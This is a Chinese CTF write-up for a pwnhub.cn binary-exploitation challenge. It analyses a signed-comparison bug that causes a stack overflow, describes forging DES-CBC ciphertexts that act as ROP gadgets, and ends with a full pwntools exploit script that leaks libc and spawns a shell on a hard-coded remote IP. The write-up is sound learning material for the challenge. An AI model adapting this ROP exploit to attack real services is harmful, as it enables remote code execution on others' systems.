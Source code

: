 ```yaml
---
layout: post
title: pwnhub.cn 神秘人的捉弄 pwn Writeup
categories: CTF
description: integeroverflow
keywords: CTF, writeup
---
```


这个题目输入数据必须为题目中指定的数据包的格式，否则程序会直接exit。如果输入符合格式，v 会让你很粗对包进行解析，根据解析道结果继续读入新的包进行进一步解析，之后会开启socket进行IO。

## 漏洞分析

本题有两个漏洞，一个是栈溢出漏洞，一个是堆溢出漏洞(getname的时候len+1可能导致malloc(0))，只不过可以利用的只有栈溢出漏洞。栈溢出漏洞存在于sub_401281中

```
  if ( *((_BYTE *)src + readlen - 1) > 8 )
  {
    write(1, &error2, 2uLL);
    exit(0);
  }
  readlen -= *((char *)src + readlen - 1);
  memcpy(s1, src, readlen);
```


  在代码**readlen -= \*((char \*)src + readlen - 1)**中，如果**\*((char \*)src + readlen - 1)**为负数，则readlen会不减反增，从而导致readlen最大可能为0x178,而s1是栈上的0x100大小的buffer，因此**memcpy(s1, src, readlen);**会产生栈溢出。
。
  
  值得注意的是，在比较语句**if ( \*((_BYTE \*)src + readlen - 1) > 8 )**中，8是有符号数，所以**\*((char \*)src + readlen - 1)**为负数不会使之成立，这也是漏洞存在的根本原因。如果这里的8是无符号的话（就像上一个长相差不多的if），那这里就不会存在漏洞了。
  
## 漏洞利用

这题的漏洞利用有一个比较烦的地方就是跟payload构造比较麻烦：

1. 存在漏洞的函数要求我们的数据为**"\x01"+hex(len(data1))+data1+hex(len(data2))+data2**。其中data1和data2为长度最大为0xf8的DES密文，且以DES CBC解密的结果的第一个分组必须为admin\x00与explorer\x00，解密结果的最后一位会作为**readlen -= \*((char \*)src + readlen - 1)**中的**\*((char \*)src + readlen - 1)**参与溢出触发的payload的构造。
2. 在**memcpy(s1, src, readlen);**中，src为攻击者可控最大为0xf8的堆上buffer，当readlen为0x178时，剩下的0x178-0xf8的内容来源于与src相邻的堆块，这个堆块存储的data2，所以要想利用栈溢出做ROP，我们必须要在CBC模式中构造一个密文本身是ROP gadget，解密出的明文的第一个分组为admin\x00的密文。

这些问题其实就是密码学的问题，第一个问题比较好解决，通过逆向可以找到key和iv，然后加密就好了。第二个的难点是如何在DES CBC中找到对应某个密文的明文。这个可能会卡一会，但是花些时间演算一下也不难解决。

接下来就是做ROP了，ROP调用wirte函数把write_got的内容打出来，并算出system和binsh的地址，然后返回main，重新触发漏洞，再次做ROP调用system(binsh)。

本来我以为这样就结束了，但是很悲催的发现好像缺少设置rdx的gadget。我发现的唯一能能比较好的设置rdx的gadget就是init函数中的万能gadget，但是由于这个题目能够用的gadget数量最多就只有8个，init函数的gadget太大（要进行2次6连pop，还要add rsp,8)，所以就很尴尬了。

```
.text:0000000000405020 loc_405020:                             ; CODE XREF: init+54j
.text:0000000000405020                 mov     rdx, r13
.text:0000000000405023                 mov     rsi, r14
.text:0000000000405026                 mov     edi, r15d
.text:0000000000405029                 call    qword ptr [r12+rbx*8]
.text:000000000040502D                 add     rbx, 1
.text:0000000000405031                 cmp     rbx, rbp
.text:0000000000405034                 jnz     short loc_405020
.text:0000000000405036
.text:0000000000405036 loc_405036:                             ; CODE XREF: init+36j
.text:0000000000405036                 add     rsp, 8
.text:000000000040503A                 pop     rbx
.text:000000000040503B                 pop     rbp
.text:000000000040503C                 pop     r12
.text:000000000040503E                 pop     r13
.text:0000000000405040                 pop     r14
.text:0000000000405042                 pop     r15
.text:0000000000405044                 retn
```

这个问题卡了我很长时间。以至于后来我手动在各个函数寻找找能够设置rdx的方法，甚至把got能直接调的函数都调了一遍，期待在函数内部可以把rdx设置妥当,结果都失败了。最后只能又回到万能gadgets，看了一下栈的布局，发现第二次6连pop的最后一次pop时，栈顶居然是main函数的地址，这是巧合么？然后第一次6连pop中的第一个pop本来是将rbx设置为0的，但是我发现rbx在pop之前也是0！这又是巧合么？这样就可以第一次6连pop第一个pop省掉了，orz。省掉第一个pop之后第二次6连pop结束后的ret就正好返回到main了。所以问题也得以解决，于是又可以愉快的ROP弹shell了。
 
## Exploit

```
from pwn import *;
from struct import pack;
from Crypto.Cipher import DES
port=12345
objname = "pwnhub"
objpath = "./"+objname
io = process(objpath)
elf = ELF(objpath)
context(arch="amd64", os="linux")
context.log_level="debug"
context.terminal = ["tmux", "splitw", "-h"]


def attach():
    gdb.attach(io, execute="source bp")

def readuntil(delim):
    data = io.recvuntil(delim);
    return data;

def readlen(len):
    data = io.recv(len,1);
    return data;

def readall():
    data = io.recv(4096,1);
    return data;

def write(data):
    io.send(str(data));
    sleep(0.1)

def writeline(data):
    io.sendline(str(data));
    sleep(0.1)

def xor(a,b,len=8):
    res=""
    for i in range(len):
        res+=(chr(ord(b[i])^ord(a[i])))
    return res
def getcrypt(ahead,p):
    #--------------------------------------- 
    #t=ahead[len(ahead-8):len(ahead)]
    #p1=dec(p)^t
    #enc(p1^t)=enc(dec(p)^t^t)=enc(dec(p))=p
    #--------------------------------------- 
    deskey="explorer";
    enc1=DES.new(deskey,2,deskey);
    enc2=DES.new(deskey,2,deskey);
    c1=enc1.encrypt(ahead+p);
    c2=enc2.decrypt(c1[0:len(ahead)]+p);
    return ahead+c2[len(ahead):len(ahead)+8];
    
def attack(ip=0):
    global io
    if ip != 0:
        io = remote(ip,port)
    #ROP Gadgets
    prdi=0x00404217
    writeplt=0x04008C0
    writegot=0x607020
    main=0x400add
    setpara=0x0405020 
    pppppr=0x40503b 

    deskey=0xBE00BE76EC5CE70D;
    deskey=p64(deskey);
    enc1=DES.new(deskey,2,deskey);
    s1="explorer".ljust(0xf8,"\x00")
    e1=enc1.encrypt(s1);
    
    
    enc2=DES.new("explorer",2,"explorer");
    s2="admin".ljust(8,"\x00");
    
    payload1='aaaa'+p32(7)+'caaadaaaeaaafaaa'+p64(0);
    payload1+=p64(pppppr);
    payload1+=p64(1)#rbp
    payload1+=p64(writegot)#r12   
    payload1+=p64(16);
    payload1+=p64(writegot)
    payload1+=p64(1)
    payload1+=p64(setpara)
    payload1+=p64(main)
    payload1+=p64(main)
    payload1.ljust(232,'\x41')
    payload1.ljust(232,'\x41')
    for i in range(0,len(payload1),8):
        s2=getcrypt(s2,payload1[i:i+8])
    e2=enc2.encrypt(s2.ljust(0xf8,"\x80"));
    
    p1="\x05\x05"
    write(p1);
    p2="\x02\x02\x02\x02\x02";
    write(p2);
    p3="\x01\xf8"+e1+"\xf8"+e2;
    write(p3);
    sleep(0.1);
    write_addr=readall()[2:10];
    write_addr=u64(write_addr)

    system=write_addr-0xb1340
    binsh=write_addr+0x95aa7
    print hex(system)

    enc3=DES.new("explorer",2,"explorer");
    s3="admin".ljust(8,"\x00");
    payload2='aaaa'+p32(7)+'caaadaaaeaaafaaa'+p64(0);
    payload2+=p64(prdi)+p64(binsh);
    payload2+=p64(system)
    payload2+=p64(main)
    payload2.ljust(232,'\x41')
    
    for i in range(0,len(payload2),8):
        s3=getcrypt(s3,payload2[i:i+8])
    e3=enc3.encrypt(s3.ljust(0xf8,"\x80"));

    p1="\x05\x05"
    write(p1);
    p2="\x02\x02\x02\x02\x02";
    write(p2);
    p3="\x01\xf8"+e1+"\xf8"+e3;
    write(p3);
    sleep(0.1)
    readall()
    
    io.interactive();
attack("54.222.142.77")
```
